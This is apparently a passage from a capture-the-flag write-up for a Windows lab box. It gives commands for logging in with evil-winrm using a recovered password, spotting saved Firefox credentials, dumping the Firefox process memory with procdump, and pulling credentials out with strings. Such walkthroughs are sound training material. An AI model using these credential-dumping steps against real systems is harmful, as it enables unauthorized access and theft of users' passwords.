 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913174329.png)

checking chase permission I found that he can connect via winrm

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913174523.png)

```
evil-winrm -i 10.10.10.149 -u chase -p "Q4)sJu\Y8qz*A3?d"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913174558.png)

Now we can grab user.txt
## Privilege Escalation

On his desktop I found todo.txt file 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913174725.png)

Running Winpeas I found that there is forefox saved credentials

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913180704.png)

```
C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db
```

Firefox is running on the box.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913181354.png)

so easy way is to dumping form proc memory using procdump. Get it on machine 
https://learn.microsoft.com/it-it/sysinternals/downloads/procdump

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913181450.png)

And run it 

```
.\procdump64 -ma 6492 -accepteula
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913181607.png)

now download outfile on kali

```
download firefox.exe_250913_214536.dmp
```

and use strings
Or to not waste time waiting for downloading we can upload strings for windows
https://learn.microsoft.com/pl-pl/sysinternals/downloads/strings

```
.\strings64.exe firefox.exe_250913_214536.dmp --accepteula
```
